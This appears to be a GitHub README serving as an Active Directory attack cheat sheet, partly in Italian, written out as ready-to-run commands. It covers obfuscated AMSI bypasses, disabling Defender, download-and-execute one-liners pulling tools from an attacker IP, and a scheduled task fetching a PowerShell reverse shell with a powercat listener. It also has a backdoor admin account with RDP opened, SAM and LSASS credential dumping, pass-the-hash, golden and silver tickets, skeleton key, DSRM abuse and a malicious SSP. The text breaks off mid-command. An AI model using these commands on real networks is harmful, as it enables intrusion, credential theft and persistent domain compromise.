




# Active-Directory-Cheat-Sheet
# Summary
* [General](#General)
* [BloodHound](#BloodHound)
* [Domain Enumeration](#Domain-Enumeration)
* [Local privilege escalation](#Local-privilege-escalation)
* [Lateral Movement](#Lateral-Movement)
* [Domain Persistence](#Domain-Persistence)
* [Domain privilege escalation](#Domain-privilege-escalation)
* [DCShadow](#DCShadow)
      

# General
### Bypass Execution Policy
```
powershell -ep bypass -c "command"

powershell -c "command"

powershell -encodedcommand

$env:PSExecutionPolicyPreference="bypass"
	
```
### Use this parameter to not print errors in Powershell
```
 -ErrorAction SilentlyContinue

Esempio:
Get-Item -Path $_ -ErrorAction SilentlyContinue	
```
### Rename Powershell
```
$host.ui.RawUI.WindowTitle = "Claudione"	
```

### Disable Firewall
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose

Set-MpPreference -DisableIOAVprotection $true -Verbose
```

### Enter in a new machine vias rdp or via powershell

```
Get-Credentials [via RDP]

Enter-PSSession -ComputerName techsrv30.tech.finance.corp -Credential tech\techservice [successivamente verrà chiesta la password]
```
### Load script on a machine
```
Invoke-Command -Computername <computername> -FilePath <path>

Invoke-Command -FilePath <path> $sess
```

### Download and load script on a machine
```
iex (iwr http://xx.xx.xx.xx/<scriptname> -UseBasicParsing)
```

### AMSI Bypass
### AMSI, o Antimalware Scan Interface, è un'interfaccia introdotta da Microsoft a partire da Windows 10 e Windows Server 2016. Essa consente ai programmi antivirus e ad altre soluzioni di sicurezza di integrarsi con le applicazioni in esecuzione e di effettuare la scansione dei contenuti in modo più efficace. L'AMSI può rilevare e segnalare potenziali minacce di malware alle applicazioni che la utilizzano.

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

```
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
```

```
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} $sess
```

# BloodHound

```
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
Import-Module SharpHound.ps1
Invoke-BloodHound -CollectionMethod -All
```

### S4U2self (Service for User to Self): Immagina che tu abbia bisogno di ottenere un biglietto di servizio per te stesso, ad esempio per accedere a una risorsa su un server. Con l'estensione S4U2self, un servizio può ottenere questo biglietto di servizio per te senza dover passare attraverso l'autenticazione diretta come avviene normalmente. È come se un rappresentante ottenesse un biglietto d'ingresso per te, consentendoti di accedere alla risorsa senza dover passare personalmente attraverso tutti i controlli di sicurezza.

### S4U2proxy (Service for User to Proxy): Ora, immagina che tu abbia bisogno di accedere a un'altra risorsa su un altro server, ma non puoi farlo direttamente perché non hai i permessi necessari. Con l'estensione S4U2proxy, un servizio può agire come "proxy" per te, ottenendo un biglietto di servizio per accedere alla risorsa desiderata. È come se tu delegassi a qualcuno il compito di ottenere un permesso speciale per te, consentendoti di accedere alla risorsa indirettamente attraverso il servizio proxy.


# Domain-Enumeration

### PowerView:
- Domain/USER Enumeration
```
hostname (vedo il mio name del computer nel dominio)

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-Domain"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainSID"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainPolicy"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -SPN"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -Properties samaccountname,memberof"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainUser -Properties samaccountname,description"

powershell -ep bypass -c "[System.Net.Dns]::GetHostAddresses('xor-app23')" (converte hostname in IP)
```

- Domain Controller
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetDomainController"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetDomainController -Domain [another domain]"
```

- GROUP Enumeration
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -Name 'Domain Admins'"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-DomainGroup | where Name -like "*Admin*" | select SamAccountName "

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroupMember -Name 'Domain admins' "

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -Domain 'xor.com'"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroupMember -Identity "Domain admins" -Recurse | findstr MemberName"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainGroup -UserName 'HUA10157' | findstr cn"
```

- COMPUTER Enumeration
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetComputer | select 	samaccountname, operatingsystem"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainComputer -Ping "
```

- Local Group in the machine 
```
hostname

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-NetLocalGroup -ComputerName PWVRTJS14.socrome.local"
```

- Logged on the computer 
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-NetLoggedon -ComputerName PWVRTJS14.socrome.local"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1');  Get-LastLoggedOn -ComputerName PWVRTJS14.socrome.local"
```

- SHARED INFO Enumeration
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Find-DomainShare -Verbose"

cd \\fileshare.pentesting.local\FileShare

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-ShareFinder -Verbose"
```

- GPO Enumeration
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetGPO"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetGPO -ComputerName PWVRTJS14.socrome.local"	
```

- OU Enumeration
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-DomainOU"
```

- ACL (Lista di ACE (corrisponde ad un unico permesso/accesso) Due tipi: DACL(Identifica gruppi/user che hanno o accesso al servizio) e SACL(Controlla gli accessi (EDR))
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-ObjectAcl -SamAccountName HUA10157 -ResolveGUIDs"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-PathAcl -Path '\\dcorp dc.dollarcorp.moneycorp.local sysvol'"
```

- Forest
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetForest"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetForestDomain"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Get-NetForestCatalog"
```

- User Hunting (1: Trova tutte le macchine dove lo user ha local admin access, 2: Trova local admins su tutte le macchine del dominio, 3: Trova pc dove un domanin admin ha sessione, 4: Trova computer dove un domain admin è loggato)
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Find-LocalAdminAccess"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-EnumerateLocalAdmin Verbose"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke-UserHunter"

powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.206/PowerView.ps1'); Invoke.UserHunter -Stealth"
```


# Local-privilege-escalation 
### Privesc check all
https://github.com/enjoiz/Privesc
```
. .\privesc.ps1

Invoke-PrivEsc
```
### Beroot check all
https://github.com/AlessandroZ/BeRoot
```
./beRoot.exe
```

###  Run powerup check all
https://github.com/HarmJ0y/PowerUp
```
. ./powerup

Invoke-allchecks
```
###  Run powerup get services with unqouted paths and a space in their name
```
Get-ServiceUnquoted -Verbose

Get-ModifiableServiceFile -Verbose
```

###  Abuse service to get local admin permissions with powerup
```
Invoke-ServiceAbuse

Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <username> <password> /add /Y   && net localgroup administrators <username> /add   && net localgroup "Remote Desktop Users" <username> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
# Lateral-Movement
## Archiviazione e recupero credenziali memorizzate [Local Admin nella macchina]
### SAM (Security Accounts Manager) è un file di database presente nei sistemi operativi Windows. Contiene le informazioni sugli account degli utenti locali, inclusi i nomi degli account, le relative password hash e altre informazioni associate. Il file SAM viene utilizzato per autenticare gli utenti locali al momento dell'accesso al sistema.
### LSASS (Local Security Authority Subsystem Service) è un servizio di sistema che gira su un sistema operativo Windows. È responsabile della gestione delle operazioni di autenticazione e delle politiche di sicurezza locali. LSASS utilizza il file SAM per verificare l'autenticità degli account degli utenti locali. Esso carica il file SAM in memoria durante l'avvio del sistema e gestisce le richieste di autenticazione, verificando le password degli utenti rispetto alle corrispondenti hash presenti nel file SAM.
### Riepilogo: Quindi, in breve, il SAM è il file che contiene le informazioni sugli account degli utenti locali, mentre LSASS è il servizio che utilizza il file SAM per autenticare gli utenti e gestire le operazioni di autenticazione nel sistema operativo Windows.
### LSASS è responsabile dei componenti seguenti: 
* Autorità di sicurezza locale
* Servizio NetLogon
* Servizio Gestione account di sicurezza (SAM)
* Servizio LSA Server
* Secure Sockets Layer (SSL)
* Protocollo di autenticazione Kerberos v5
* Protocollo di autenticazione NTLM
* Altri pacchetti di autenticazione che vengono caricati in LSA

- Estrazione dal registro per recupero NTLM dal database SAM
```
reg save HKLM\sam sam

reg save HKLM\system system

reg save HKLM\security security

samdump2 system sam (NTLM lo piazzi dentro un file .txt)

hashcat -m 1000 -a 3 hash.txt rockyou.txt

o 

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -security security -system system LOCAL

hashcat -m 1000 -a 3 hash.txt rockyou.txt
```

- Dump Credentials della macchina locale
```
powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -DumpCreds
```

- Dump Credentials from lsass
```
powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command ' "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit" '
```

- Mimikatz pass the Hash
```
powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"sekurlsa::pth" "/user:Administrator" "/domain:dollarcorp.moneycorp.local" "/ntlm:<ntlmhash>" "/run:powershell.exe"'
```

o
```
Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt
```
# Domain-Persistence
## Golden Ticket [Domain Admins]
### Tornando alla spiegazione dell'autenticazione Kerberos, ricordiamo che quando un utente inoltra una richiesta per un TGT, il KDC crittografa il TGT con una chiave segreta nota solo ai KDC nel dominio. Questa chiave segreta è in realtà l'hash della password di un account utente di dominio chiamato krbtgt. Se riusciamo a mettere le mani sull'hash della password krbtgt, potremmo creare i nostri TGT personalizzati o biglietti d'oro.
### Ad esempio, potremmo creare un TGT in cui si afferma che un utente senza privilegi è in realtà un membro del gruppo Domain Admins e il controller di dominio lo considererà attendibile poiché è crittografato correttamente.
## Prerequisito: In questa fase del coinvolgimento, dovremmo avere accesso a un account che è un membro del gruppo Domain Admins oppure aver compromesso il controller di dominio stesso.  

- Ottenere hash krbtgt
  
```
certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe

mimikatz.exe '"lsadump::lsa /patch"' -Computername dc-corp
```

- Usare HASH krbtgt per creare un Golden ticket per un user non autenticato . Si può usare /ticket invece che /ptt per salvare il ticket

```
certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe

mimikatz.exe '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "id:500" "groups:512" "/krbtgt:$NTLM_HASH" "/user:fakeuser" "/ptt"'
```

- Si può usare la funzione DCSync per ottenere hash krbtgt usando Mimikatz

```
mimikatz.exe '"lsadump::dcsync" "/user:$DOMAIN\krbtgt"'

Invoke-Mimikatz -Command  '"lsadump::dcsync" "/user:$DOMAIN\krbtgt"'
```
## Silver Ticket [Conoscenza Hash account service. Ovviamente Local Admin nella macchina di partenza]
### I Silver Ticket sono ticket TGS (Ticket Granting Service) contraffatti creati da un utente malintenzionato utilizzando l'hash della password di un account di servizio compromesso. Quando un utente malintenzionato ha violato la password di un account di servizio, potrebbe sembrare che non avrebbe bisogno di falsificare i ticket per agire per suo conto. Mentre un biglietto d'oro è un TGT falso valido per ottenere l'accesso a qualsiasi servizio Kerberos, il biglietto d'argento è un TGS contraffatto. Ciò significa che l'ambito Silver Ticket è limitato a qualsiasi servizio destinato a un server specifico.
### Mentre un ticket Golden viene crittografato/firmato con l'account del servizio Kerberos di dominio (KRBTGT) , un ticket Silver viene crittografato/firmato dall'account del servizio (credenziale dell'account del computer estratta dal SAM locale del computer o credenziale dell'account del servizio)
### I biglietti d'argento possono essere più pericolosi dei biglietti d'oro: sebbene l'ambito sia più limitato dei biglietti d'oro, l'hash richiesto è più facile da ottenere e non c'è comunicazione con un controller di dominio quando li si utilizza, quindi il rilevamento è più difficile di quelli d'oro Biglietti.
## Prerequisito: Per creare o falsificare un Silver Ticket, l'attaccante deve conoscere i dati della password (hash) per il servizio di destinazione. Se il servizio di destinazione è in esecuzione nel contesto di un account utente, come MS-SQL, è necessario l'hash della password dell'account di servizio per creare un Silver Ticket. (https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)

- Servizio CIFS (Ma possono essere altri servizi come HOST). Il servizio CIFS permette di accedere al file system della vittima.
```
powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "/service:CIFS" "/target:mgmtsrv.TECH.FINANCE.CORP" /user:Administrator /rc4:$NTLM_HASH_Service_Account /ptt'
```

- Servizio HOST (schedule a task sul target).
```
powershell -ep bypass

Import-Module Invoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"kerberos::golden" "/domain:$DOMAIN" "/sid:$DOMAIN_SID" "/service:HOST" "/target:mgmtsrv.TECH.FINANCE.CORP" /user:Administrator /rc4:$NTLM_HASH_Service_Account /ptt
```

- Schedulare e eseguire un task dopo aver avuto un Silver ticket
```		
schtasks /create /S mgmtsrv.TECH.FINANCE.CORP /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object 

Net.WebClient).DownloadString('http://172.16.100.68:8080/Invoke-PowerShellTcp.ps1')'"

schtasks /Run /S mgmtsrv.TECH.FINANCE.CORP /TN "STCheck"

Import-Module powercat.ps1

powercat -l -v -t 1000 -p 2023
```

## Skeleton Key [Domain Admins]
### Questo attacco si impianta in LSASS e crea una password principale che funzionerà per qualsiasi account Active Directory nel dominio. Poiché anche le attuali password degli utenti continuano a funzionare, un attacco Skeleton Key non interromperà il processo di autenticazione, quindi gli attacchi sono difficili da individuare a meno che tu non sappia cosa cercare. Il riavvio del DC rimuoverà questo attacco. Si potrà accedere a qualsiasi pc con username valido e password che di default sarà mimikatz
## Prerequisiti: Essere un utente del gurppo Domain Admins

```
certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe

mimikatz.exe '"privilege::debug" "misc::skeleton" "/target: FQDN_DC"'

Enter-PSSession -Computername DC -credential Domain\Administrator
```

### Se LSASS sta runnando come processo protetto si può usare ancora questa tecnica, tuttavia avrà bisogno del driver mimikatz(mimidriv.sys) sul disco del DC target

```
certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe

mimikatz.exe '"privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "/target: FQDN_DC" "misc::skeleton" "!-"'

Enter-PSSession -Computername DC -credential Domain\Administrator
```

## DSRM (Directory Services Restore Mode) [Domain Admins]
### C'è un local administrator su ogni DC chiamato Administrator la cui password è DSRM password. Tale password è richiesta quando un server è promosso a DC e viene cambiata raramente. Quindi è possibile usare NTLM hash di questo user per accedere a DC.

```
certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe

mimikatz.exe '"token::elevate" "lsadump::sam" "/target: dc-host-name"'

mimikatz.exe '"/target: FQDN_DC" "lsadump::lsa /patch"'

Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior (verifichi se c'è il valore)

New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD #Create key with value "2" (se valore non esiste)

Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  #Change value to "2" (valore già esiste e lo cambi)

mimikatz.exe '"sekurlsa::pth" "/domain:dc-host-name" "/user:Administrator" "/ntlm:HASH_DSRM" "/run:powershell.exe"'

ls \\dc-host-name\C$	
```

## Custom SSP (Security Support Provider) [Local Admin nella macchina]
### La SSP è una DLL la quale fornisce una via per un applicazione di ottenere una comunicazione autenticata. Alcune SSP di Microsoft sono NTLM,Kerberos,WDigest. L'SSPI si occuperà di trovare il protocollo adeguato per due macchine che vogliono comunicare. Il metodo preferito è Kerberos. Questi protocolli di autenticazione sono chiamati Security Support Provider (SSP), si trovano all'interno di ogni macchina Windows sotto forma di DLL ed entrambi i computer devono supportarli per poter comunicare. Mimikatz fornisce una SSP personalizzata chiamata (mimilib.dll). Questo SSP registra i logon locali, account di servizio e le password degli account macchina in testo chiaro sul server di destinazione.
## Prerequisiti: Local Admin nella macchina

```
Drop the mimilib.dll to system32 and add mimilib to

$packages Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' select -ExpandProperty 'Security Packages'

$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

Using mimikatz
certutil.exe -urlcache -f "http://192.168.119.206/mimikatz64.exe" mimikatz.exe

mimikatz.exe '"misc::memssp"' (inieittare mimilib dentro lsass -> non stabile per Server 2016)

Tutte le info recuperate sono su C:\Windows\system32\kiwissp.log
```


## AdminSDHolder (Domain Admins sull'oggetto AdminSDHolder)

### Funzione di AdminSDHolder: AdminSDHolder memorizza un insieme di permessi di sicurezza predefiniti, chiamati Security Descriptor. Gli account che appartengono a gruppi protetti, come gli amministratori di dominio o gli amministratori dello schema, ricevono periodicamente una copia di questi permessi. Questo processo è gestito da un meccanismo chiamato SDProp (Security Descriptor Propagator), che viene eseguito ogni ora di default.

Immagina di avere un amministratore in Active Directory, ad esempio un utente chiamato "AdminUser", che appartiene al gruppo "Domain Admins". Ecco un esempio di come funziona il processo:

    - Creazione dell'utente: "AdminUser" viene creato e aggiunto al gruppo "Domain Admins".
    
    - Esecuzione del SDProp: Ogni ora, il processo SDProp verifica se gli utenti nei gruppi protetti hanno i permessi di sicurezza corretti.
    
    - Confronto e aggiornamento: Se "AdminUser" ha dei permessi che non corrispondono a quelli definiti in AdminSDHolder, SDProp sovrascrive i permessi di "AdminUser" con quelli memorizzati in AdminSDHolder.
    
    - Protezione continua: Questo assicura che qualsiasi modifica non autorizzata ai permessi di "AdminUser" venga corretta automaticamente nel prossimo ciclo di SDProp.

### Esempio pratico dell'importanza di AdminSDHolder

Supponiamo che un amministratore malintenzionato tenti di modificare i permessi di "AdminUser" per ridurre il suo livello di accesso:

    Modifica manuale: L'amministratore cambia i permessi di "AdminUser".
    SDProp interviene: Durante la prossima esecuzione (che avviene entro un'ora), SDProp rileva che i permessi di "AdminUser" non corrispondono a quelli di AdminSDHolder.
    Ripristino dei permessi: SDProp sovrascrive i permessi di "AdminUser" con quelli predefiniti, ripristinando la configurazione di sicurezza originale.

### L'ACL può essere visualizzato sull'oggetto AdminSDHolder stesso. Utenti e computer -> System -> AdminSDHolder e selezionare Proprietà. Security Descriptor Propagator (SDPROP) viene eseguito ogni ora e confronta l'ACL dei gruppi e dei membri protetti con l'ACL di AdminSDHolder e le eventuali differenze vengono sovrascritte nell'ACL dell'oggetto.

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "claudionepc") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))} (controllo se claudionepc ha privilegi di replication

